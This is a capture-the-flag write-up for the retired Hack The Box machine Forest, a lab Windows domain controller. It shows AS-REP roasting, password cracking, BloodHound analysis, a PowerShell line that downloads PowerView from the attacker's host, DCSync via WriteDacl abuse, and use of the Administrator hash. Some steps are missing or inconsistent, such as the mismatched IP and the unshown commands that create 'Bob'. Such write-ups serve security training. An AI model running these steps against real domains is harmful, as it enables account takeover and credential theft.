




This is a writeup for the HTB machine Forest (Retire).

# Forest
- IP Address: ``10.10.11.35``
- Difficulty: Easy
- Operating System: Windows
- Tags: `Active Directory`, `Windows`, `LDAP`, `Bloodhound`, `Psexec`, `PowerView`, `SecretDump`

??? Warning
     "This machine is retired on HTB. You will need an active VIP subscription to access it."

I will start off with a `nmap scan` to see what services are running.

## Enumeration
```bash
nmap -sCV 10.10.10.161                                                                       at 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 18:56 EDT
Nmap scan report for 10.10.10.161
Host is up (0.10s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-03-17 23:04:45Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-03-17T16:04:55-07:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: 2h27m52s, deviation: 4h02m31s, median: 7m51s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2025-03-17T23:04:52
|_  start_date: 2025-03-17T23:02:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.12 seconds
```

Using ``ldapsearch`` I was able to enumerate the ldap server anonymously
```bash
ldapsearch -x -s sub -b "dc=htb,dc=local" -H ldap://10.10.10.161 "(objectClass=*)" "*" +
```

Using windapsearch I found 28 users using the ``-U`` flag for users
```bash

   ~/To/windapsearch on    master ❯ ./windapsearch.py -d htb.local --dc-ip 10.10.10.161 -U        took   19s at   10:56:49 PM
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.10.161
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=htb,DC=local
[+] Attempting bind
[+]     ...success! Binded as:
[+]      None

[+] Enumerating all AD users
[+]     Found 28 users:

cn: Guest

cn: DefaultAccount

cn: Exchange Online-ApplicationAccount
userPrincipalName: Exchange_Online-ApplicationAccount@htb.local

cn: SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}
userPrincipalName: SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}@htb.local

cn: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}
userPrincipalName: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@htb.local

cn: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}
userPrincipalName: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@htb.local

cn: DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}
userPrincipalName: DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB852}@htb.local

cn: Migration.8f3e7716-2011-43e4-96b1-aba62d229136
userPrincipalName: Migration.8f3e7716-2011-43e4-96b1-aba62d229136@htb.local

cn: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042
userPrincipalName: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@htb.local

cn: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}
userPrincipalName: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@htb.local

cn: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}
userPrincipalName: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@htb.local

cn: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}
userPrincipalName: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@htb.local

cn: HealthMailboxc3d7722415ad41a5b19e3e00e165edbe
userPrincipalName: HealthMailboxc3d7722415ad41a5b19e3e00e165edbe@htb.local

cn: HealthMailboxfc9daad117b84fe08b081886bd8a5a50
userPrincipalName: HealthMailboxfc9daad117b84fe08b081886bd8a5a50@htb.local

cn: HealthMailboxc0a90c97d4994429b15003d6a518f3f5
userPrincipalName: HealthMailboxc0a90c97d4994429b15003d6a518f3f5@htb.local

cn: HealthMailbox670628ec4dd64321acfdf6e67db3a2d8
userPrincipalName: HealthMailbox670628ec4dd64321acfdf6e67db3a2d8@htb.local

cn: HealthMailbox968e74dd3edb414cb4018376e7dd95ba
userPrincipalName: HealthMailbox968e74dd3edb414cb4018376e7dd95ba@htb.local

cn: HealthMailbox6ded67848a234577a1756e072081d01f
userPrincipalName: HealthMailbox6ded67848a234577a1756e072081d01f@htb.local

cn: HealthMailbox83d6781be36b4bbf8893b03c2ee379ab
userPrincipalName: HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local

cn: HealthMailboxfd87238e536e49e08738480d300e3772
userPrincipalName: HealthMailboxfd87238e536e49e08738480d300e3772@htb.local

cn: HealthMailboxb01ac647a64648d2a5fa21df27058a24
userPrincipalName: HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local

cn: HealthMailbox7108a4e350f84b32a7a90d8e718f78cf
userPrincipalName: HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local

cn: HealthMailbox0659cc188f4c4f9f978f6c2142c4181e
userPrincipalName: HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local

cn: Sebastien Caron
userPrincipalName: sebastien@htb.local

cn: Lucinda Berger
userPrincipalName: lucinda@htb.local

cn: Andy Hislip
userPrincipalName: andy@htb.local

cn: Mark Brandt
userPrincipalName: mark@htb.local

cn: Santi Rodriguez
userPrincipalName: santi@htb.local


[*] Bye!
```

Checking for ``serviceaccounts`` I found a service acount using the ``--custom "objectClass=* "

```bash
   ~/Tools/windapsearch on    master ❯ ./windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "objectClass=*"
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.10.161
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=htb,DC=local
[+] Attempting bind
[+]     ...success! Binded as:
[+]      None
[+] Performing custom lookup with filter: "objectClass=*"
[+]     Found 312 results:

DC=htb,DC=local

CN=Users,DC=htb,DC=local

<<SNIP>>

OU=Service Accounts,DC=htb,DC=local

CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local

OU=Security Groups,DC=htb,DC=local
```

## Foothold
``GetNPUsers.py`` from the Impacket suite is used to exploit users with the "Do not require Kerberos pre-authentication" setting enabled. This allows you to request Kerberos TGTs without providing the user's password, and then crack the resulting hash offline. Here's a breakdown of how to use it:  

Understanding the Process

AS-REP Roasting:
- The core technique is known as AS-REP roasting.   
- When a user has "Do not require Kerberos pre-authentication" set, the Kerberos Key Distribution Center (KDC) will issue a TGT without requiring pre-authentication.  
- This TGT contains a hash of the user's password, which can be extracted and cracked.  

GetNPUsers.py:

- This Impacket script automates the process of requesting these TGTs and extracting the hashes.

```bash
   ~ ❯ impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass                      took   13s at   11:15:15 PM
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:7d83e190f6f4c0e18b9119825b780eee$1c7372e2d3e52457028f1b143d51a115d9face7d6250c144774087196e5bf8a67ddb28af68aaffcb2a3d21b8ef1b9c7acfeddf159a4be34d38e14ac468c391570576873f92b55ae089f4a877090f98506b432d17eedf70481deefec66d269c7fe5518d4a0d3c8d582487d27df660bd577f08cd856c4d7870a5efa488fce91bbe4099dce4cfc1919271dc151dc7e28f558c6b6c8696121989825c07d89ee30ebcc6136564e3b3932fa3a18e3df9571d9a83dc1a0cc1673ced70889cfbb00acc8dab8fd9d2f84e58a7326c9e38ad79499078c1e3f2f70ba4112b97be77594a5d08c9ca333bdad6
```

### Cracking the Hash
The hash obtained from the previous step can be cracked using a tool like Hashcat or John the Ripper. Here's how to do it with John the Ripper:
```bash
 ~ ❯ john john.hash --fork=4 -w=/usr/share/wordlists/rockyou.txt                                       took   6s at   11:27:25 PM
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
4 1g 0:00:00:03 DONE (2025-03-17 23:27) 0.2958g/s 302196p/s 302196c/s 302196C/s s3urkf2m..s3rvice
3 0g 0:00:00:10 DONE (2025-03-17 23:27) 0g/s 329893p/s 329893c/s 329893C/sa6_123
1 0g 0:00:00:10 DONE (2025-03-17 23:27) 0g/s 328985p/s 328985c/s 328985C/s    qaz.ie168
Waiting for 3 children to terminate
2 0g 0:00:00:10 DONE (2025-03-17 23:27) 0g/s 328683p/s 328683c/s 328683C/s   tania.abygurl69
Session completed.
```
The cracked password is `s3rvice`.

Using ``Netexec`` I was able to discover that the credentials can be able to use ``winrm`` to gain an interactive shell.
```bash
netexec winrm 10.10.10.161 -u svc-alfresco -p s3rvice                                             took   4s at   12:26:29 PM
WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

## Privilege Escalation
Using BlooodHound, BloodHound itself is primarily a graphical tool, but the data it uses is collected through command-line tools. Here's a breakdown of the process:

BloodHound relies on data collectors (ingestors) to gather information from Active Directory. The most common ingestor is SharpHound.
```bash
~/Tools/BloodHound.py on    master ❯ ./bloodhound.py -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.1
0.10.161
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 31S
```

The data collected by SharpHound is then imported into the BloodHound GUI for analysis. You can use various queries to identify potential privilege escalation paths, such as finding users with high privileges, identifying misconfigurations, or discovering sensitive group memberships.

Import all the ``.json`` file to Bloodhound
Go to the ``Analysis`` Tab and click ``Shortest Paths to High Value Targets``



We can see that the ``EXCHANGE WINDOWS PERMISSIONS`` Group has ``WriteDacl`` to the htb.local

According to ``Microsoft documentation``, the Active Directory group that grants limited account creation privileges, including the ability to create and modify most types of accounts, is:

#### Account Operators

**Here's a breakdown:**

- The Account Operators group allows its members to create and modify user accounts, local groups, and global groups.   

- However, it's important to note that this group has limitations. It cannot manage certain highly privileged accounts and groups, such as the Administrator account or the Domain Admins group.  

Therefore, while the Domain Admins group has full control over all aspects of Active Directory, the Account Operators group is the one specifically designated for the task of creating and modifying most standard accounts.

#### DCSync
A user with WriteDACL permissions on the domain root has a very powerful privilege, essentially granting them the ability to take full control of the entire Active Directory domain. Here's a breakdown of the attacks you can perform:

#### **Understanding WriteDACL**

- WriteDACL allows a user to modify the Discretionary Access Control List (DACL) of an object. The DACL defines who has what permissions on the object.

- On the domain root, this means you can change the permissions of any object in the domain, including highly privileged groups.

### Attack Vectors

- Adding Yourself to Domain Admins:
- The most direct and devastating attack.
- You can modify the DACL of the Domain Admins group to add your own user account.   

This grants you full administrative control over the domain.   



The above commands created a new user ``Bob`` and added it to the ``Exchange Windows Permissions`` groups

Imported the ``PowerView`` module
```powershell
powershell.exe -Command "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/PowerView.ps1', 'C:\Users\svc-alfresco\Documents\PowerView.ps1')"
```

After inporting ``PowerView.ps1`` Run the below commands to add the New users Object and Password and get him ``DCSync`` right

```powershell

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'Password123' -asplain -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\Bob', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity Bob -Credential $cred -Rights DCSync
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```
Now we can now run ``SecretDump`` to dump all the Domain Credentials



Lets crack the ``Administrator`` password hash
```r
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
**Understanding the Hash Format

- ``htb.local\Administrator:`` This is the username and domain.
- ``500:`` This is the user ID (RID).
- ``aad3b435b51404eeaad3b435b51404ee:`` This is the LM hash (which is usually useless nowadays).
- ``32693b11e6aa90eb43d32c72a07ceea6:`` This is the NTLM hash, which is what we need to crack.

Another Option is to run ``impacket-psexec`` and use the hash of the administrator and get an interactive shell



Now we have full control of the machine, we can read the user.txt and root.txt file

``Happy Hacking!``